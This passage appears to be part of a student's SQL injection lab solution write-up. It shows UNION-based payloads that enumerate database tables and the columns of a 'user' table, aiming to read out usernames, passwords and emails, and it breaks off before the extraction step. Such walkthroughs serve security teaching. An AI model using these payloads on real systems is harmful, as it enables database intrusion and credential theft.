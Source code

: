`minh' UNION SELECT table_name,'2','3','4','5' FROM information_schema.tables--`

There is a importain table: **user**

Search all columns of user table - use information_schema.columns

<p align="center">
<img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/7.png" width="666px">
</p>

try `minh' UNION SELECT column_name,'2','3','4','5' FROM information_schema.columns WHERE table_name='user'--`

Oh! username-password-email, are all important information need exploit

Now just read it out, i use String concatenation to make it easier to see

<p align="center">
